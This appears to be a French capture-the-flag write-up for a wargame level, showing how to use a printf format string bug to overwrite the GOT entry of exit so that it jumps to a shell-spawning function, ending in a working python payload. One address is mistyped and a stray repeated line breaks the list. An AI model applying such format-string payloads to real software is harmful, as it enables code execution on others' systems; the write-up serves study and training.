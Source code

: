 # LEVEL 5

## Intro

On a encore la meme chose que les exercices precedent : 

![alt text](image-1.png)

Dans ghidra on voit des choses interressante , car cette fois cest la fonction o qui execute le shell, et dans la fonction n, on voit qu il y a un exit, et avant ca un simple printf de notre input. On peut donc encore une fois faire un format steing attack.



## Payload

- Il nous faut dans un premier temps l'addresse de o que on peut voir tres simplement avec ghidra : 

    ![alt text](image-2.png)

    c'est donc **\xa4\x84\x04\x08** en little endien

- Le but est **d’écraser** l’entrée GOT de `exit` pour qu’elle pointe vers `o()`. Il nous faut donc l'addresse de exit :
     on peut l 'avoir de cette facon : `objdump -R level5 | grep exit` et on obtient 08049838 soit **\x38\x98x04\x08**

- Pour exploiter le format string il nous faut convertir l addresse de o en decimal, comme ca on pourra ecrire tant de charactere avec printf , ce qui donne en decimal 134513828 et on enleve 4 octet car il y a aussi l addresse de exit donc pour notre payload on va utiliser **134513824**

- comme les autres format string , il nous faut aussi la position des arguments de printf , toujours avec la commande `echo -e "AAAA %p %p %p %p %p %p %p" | ./level5 `

    ![alt text](image-3.png)
objdump -R level5 | grep exit
\xa4\x84\x04\x08

    et cest a la 4eme position

- le payload final sera :
    `python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5`
    
    on peut faire en une seule commande :  `python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5  && cat /tmp/payload5 - | ./level5`

    ![alt text](image.png)